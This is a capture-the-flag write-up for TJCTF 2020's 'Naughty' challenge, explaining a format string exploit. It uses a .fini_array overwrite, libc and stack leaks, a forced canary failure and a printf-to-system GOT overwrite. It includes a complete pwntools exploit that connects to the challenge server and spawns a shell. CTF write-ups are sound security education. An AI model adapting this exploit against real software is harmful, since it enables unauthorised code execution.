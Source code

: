 # Naughty Writeup

Naughty was the final pwn in TJCTF 2020. It was an interesting and nice format string pwn problem. Let us begin by reversing it:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-10Ch]
  unsigned int v5; // [esp+100h] [ebp-Ch]
  int *v6; // [esp+104h] [ebp-8h]

  v6 = &argc;
  v5 = __readgsdword(0x14u);
  puts(
    "  _  _                     __ _   _        _       _  _                                     _  _      _                      ___   ");
  puts(
    " | \\| |   __ _    _  _    / _` | | |_     | |_    | || |    o O O   ___      _ _     o O O | \\| |    (_)     __   "
    "   ___    |__ \\  ");
  puts(
    " | .` |  / _` |  | +| |   \\__, | | ' \\    |  _|    \\_, |   o       / _ \\    | '_|   o      | .` |    | |    / _|"
    "    / -_)     /_/  ");
  puts(
    " |_|\\_|  \\__,_|   \\_,_|   |___/  |_||_|   _\\__|   _|__/   TS__[O]  \\___/   _|_|_   TS__[O] |_|\\_|   _|_|_   \\"
    "__|_   \\___|   _(_)_  ");
  puts(
    "_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_| \"\"\"\"| {======|_|\"\"\"\"\"|_|\""
    "\"\"\"\"| {======|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"| ");
  puts(
    "\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'./o--000'\"`-0-0-'\"`-0-0-'./o--000'\"`-0-0-'\"`-0-0-"
    "'\"`-0-0-'\"`-0-0-'\"`-0-0-' ");
  puts("What is your name?");
  fflush(stdout);
  fgets(&s, 256, stdin);
  printf("You are on the NAUGHTY LIST ");
  printf(&s);
  return 0;
}
```

As you can see, there is a clear format string bug in the last printf call. Taking a look at checksec:
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
We can just do GOT overwrite to overwrite printf and gain code execution. However, the only issue is that nothing is called after printf; the program just finishes then. However, I did note the canary part of this, which can trigger another function known as `__stack_chk_fail` when the canary check fails. I also knew about the .fini section, which has its contents triggered during normal process termination. This part as well as .init are handled by the runtime linker.

To overwrite the canary, we will first need a stack leak, which is not possible at this stage (without causing the program to just terminate). Since their binary does not have PIE enabled, I decided to target the .fini section. At this point, I also found another similar writeup: https://wumb0.in/mmactf-2016-greeting.html related to overwriting contents of `.fini_array`. Just like that problem, I overwrote `__do_global_dtors_aux_fini_array_entry` in that section with `main`. This way, the program will then go back to main during the "termination" phase. The offset for the overwrites can be determined with the standard format string technique of sending in `ABCD %p %p %p...` and seeing where that first value reappears. The offsets for leaking libc and stack can be determined with the following basic script, from which I just dumped the output and took a quick look at possible libc and stack address values:
```py
from pwn import *

for i in range(500):
	p = process('./naughty')
	p.recvuntil('name?\n')
	p.sendline("%" + str(i) + "$p")
	print "index: " + str(i)
	print p.recvall()
```

Now, when we go back to main, we cannot just overwrite printf GOT with system and then expect main to return. Since .init and .fini are handled by the runtime linker, and all we did was make it call main upon termination, the correct setup to trigger the .fini section again is not done and the program will just end after the second call to main finishes; we need to find another way to redirect back to main. I decided to target the canary now. With the stack leak, I can determine the offset to the canary. I overwrite that with a random value to trigger the canary failure function, which I also overwrote with main in the same format string. I also overwrote printf with system (whose address is determined from the libc leak) in the same payload at this point. Afterwards, it should loop back to main again. Now printf is system, so simply typing /bin/sh should pop shells.

A note about libc. The address I leaked is `_IO_2_1_stdin_`. Since my system libc is different from the docker libc, I needed to figure out the remote libc with libc database. But I also noticed that in the previous dockers on this CTF, most if not all the libcs were the same, so I just made an assumption about the libc which turned out to be correct. Note that the stack setup ended up turning out different from my local and remote version, so I just patchelf'd the file with the correct libc and linker and re-debugged there. Here is my final exploit:
```py
from pwn import *

context(arch='i386')
bin = ELF('./naughty')
libc = ELF('libc-2.27.so')
p = remote('p1.tjctf.org', 8004)

p.recvuntil('name?\n')
write1 = {0x08049bac:bin.symbols['main']}
payload = fmtstr_payload(7, write1) + "pepega %2$p poggers %81$p" #pepega is my marker for libc, poggers is my marker for stack
print payload
p.sendline(payload)
p.recvuntil('pepega ')
leak = int(p.recv(10), 16)
libc.address = leak - libc.symbols['_IO_2_1_stdin_']
log.info("Leak: " + hex(leak))
log.info("Base: " + hex(libc.address))

p.recvuntil('poggers ')
canary = int(p.recv(10), 16) - 408 #offset from this stack leak to canary
log.info("Canary address: " + hex(canary))


write2 = {canary:0xdeadbeef, bin.got['__stack_chk_fail']:bin.symbols['main'], bin.got['printf']:libc.symbols['system']}
payload = fmtstr_payload(7, write2)
p.recvuntil('name?\n')
p.sendline(payload)
p.recvuntil('name?\n')
p.sendline("/bin/sh")
p.interactive()


```
Fun challenge overall!
